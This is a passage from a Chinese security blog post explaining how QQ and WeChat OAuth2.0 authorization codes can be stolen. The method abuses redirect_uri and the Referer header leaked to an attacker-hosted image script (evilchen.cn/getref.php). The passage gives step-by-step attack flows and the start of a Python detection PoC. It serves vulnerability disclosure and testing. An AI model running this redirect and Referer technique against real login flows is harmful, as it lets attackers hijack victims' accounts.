![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-02-12/0x04.jpg)

很多厂商都会有社区、论坛等功能，大部分会使用Discuz程序来做，而Discuz确实可以引用外部资源~

这里我使用的图片地址还是 http://www.evilchen.cn/getref.php 然后进行帖子回复。

帖子地址为 http://bbs.a.com/thread-123-1-1.html 将帖子地址作为参数**redirect_uri**的值，然后诱导用户A点击登陆，这时候跳转的链接就变成了：

http://bbs.a.com/thread-123-1-1.html?code=120ED71CAECB11BAD538820E12B54664

跳转之后这个链接会做为HTTP Referer的值再请求 http://www.evilchen.cn/getref.php 那么我的服务器就会接收到code的值，再根据Request 2的值填入，我就可以获取用户A在a.com的账号权限了：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-02-12/0x05.jpg)

# **攻击流程**

1.我点击 http://a.com 的QQ登录，获取QQ快捷登录链接，替换redirect_uri的值为如上两个问题的地址然后发送给受害者2.受害者点击QQ头像登录，会跳转到redirect_uri的值(链接)，并且携带上code的值

3.受害者浏览器以跳转后的链接作为referer头请求外链图片(php)

4.攻击者获取referer的值，构建B地址，并且进入链接(注意 攻击者要在未登录情况下)

# **微信快捷登陆流程**

开发平台：https://open.weixin.qq.com/

http://a.com的地址如下：

https://open.weixin.qq.com/connect/qrconnect?appid=&redirect_uri=http://a.com/wx?callback=null

微信扫描后会跳转到：

http://a.com/weixin?callback=null&code=021n2XAB00C4mg2FvKyB0W7QAB0n2XAF

而只要利用QQ快捷登陆的方法我们一样可以获取到code的值

# **攻击流程**

1.我点击http://a.com的QQ登录，获取微信快捷登录链接，替换redirect_uri的值为如上两个问题的地址然后发送给受害者
2.受害者点开微信扫描，会跳转到redirect_uri的值(链接)，并且携带上code的值

3.受害者浏览器以跳转后的链接作为referer头请求外链图片(php)

4.攻击者获取referer的值，构建B地址，并且进入链接(注意 攻击者要在未登录情况下)

# **风险检测**

我简单的写了个poc，仅仅做风险检测，具体危害可以自行检查~~（**PS：支持微信跟QQ的快捷登陆风险检测**）

```python
# -*- coding:utf-8 -*-
# Name: QQ and WeChat OAuth2.0 PoC
# Auther: MSTLab(EvilChen)

import requests,urlparse,urllib

def scan(url):
	url = urllib.unquote(url)
	tempUrl = getValue(url)
	tempDomain = urlparse.urlparse(tempUrl).netloc
	domainA = tempDomain.split('.')
	domainB = tempDomain.replace(domainA[0],"mstlab")
	url = url.replace(tempUrl,"http://" + domainB)
	r = requests.get(url)
	# print url
```